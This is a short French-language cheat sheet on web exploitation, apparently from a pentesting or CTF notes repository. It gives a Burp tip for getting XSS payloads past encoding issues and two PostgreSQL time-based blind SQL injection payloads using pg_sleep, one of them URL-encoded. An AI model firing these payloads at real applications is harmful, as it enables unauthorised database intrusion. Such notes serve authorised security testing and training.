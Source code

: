 # Web

> Tips pour l'exploitation web



## 1. XSS

- Pour les payloads XSS (ou autre avec encodage chiant) : dans Burp > clic droit > change body encoding (il faut juste que le serveur accepte le format de requête mais sinon c'est okay)



## 2. SQLi

- **Blind** (postgresql) : 

  ```sql
  0 and (123456=(select 123456 from pg_sleep(20)))
  ```

  ```sql
  0+and+('a'=(SELECT+case+when(1=1)+then+cast(PG_SLEEP(60)as+varchar)+else+'a'+end))
  ```

  